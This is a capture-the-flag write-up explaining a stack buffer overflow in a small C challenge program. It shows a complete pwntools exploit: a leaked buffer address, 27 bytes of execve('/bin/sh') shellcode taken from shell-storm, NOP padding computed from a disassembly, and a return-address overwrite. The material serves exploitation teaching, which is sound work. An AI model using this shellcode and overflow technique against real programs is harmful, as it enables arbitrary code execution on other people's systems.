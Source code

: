 # Shellcode

From the title, we know that this is testing on the method of using Shellcode.

  ```C
  #include<stdio.h>

  int main(){
      setvbuf(stdout,0,2,0);

      char buf[100];
      printf( "Your input buffer address is %p\n" , buf );

      read( 0 , buf , 0x80 );

      return 0;
  }

  ```
  
As we can see from `shellcode.c`, we are able know the input buffer address and the overflow point of `buf[100]` , which is `read( 0 , buf , 0x80 )`
  
From the code, we have the idea: 
  
  1. Obtain the input buffer address
  2. Read in our shellcode
  3. Overwrite return address to buffer address to execute our shellcode
  
So, first step, to obtain input buffer address:

  ```python
  l = p.recvline()
  addr = int(l.decode('utf-8').split("0x")[1].rstrip(), 16)
   ```
Next, generate a shellcode(27 bytes) for `excve("/bin/sh\0,null,null")`.  (I got mine from [shell-storm]:(http://shell-storm.org/shellcode/)):

  ```python
  sh = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
  ```
  
And calculate our padding:

    400649:	48 8d 45 90          	lea    -0x70(%rbp),%rax
    40064d:	ba 80 00 00 00       	mov    $0x80,%edx
    400652:	48 89 c6             	mov    %rax,%rsi
    400655:	bf 00 00 00 00       	mov    $0x0,%edi
    40065a:	b8 00 00 00 00       	mov    $0x0,%eax
    40065f:	e8 7c fe ff ff       	callq  4004e0 <read@plt>
    
We can see we read to `rbp - 0x70` so our total padding will be 0x78 bytes. Thus, our padding will be 0x78 - 0x1b (27) = 0x5d
  
Third, which will be our final playload, with a padding of:

  ```python
  p.sendline( b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + b"\x90"*0x5d + p64(addr))
  ```
  
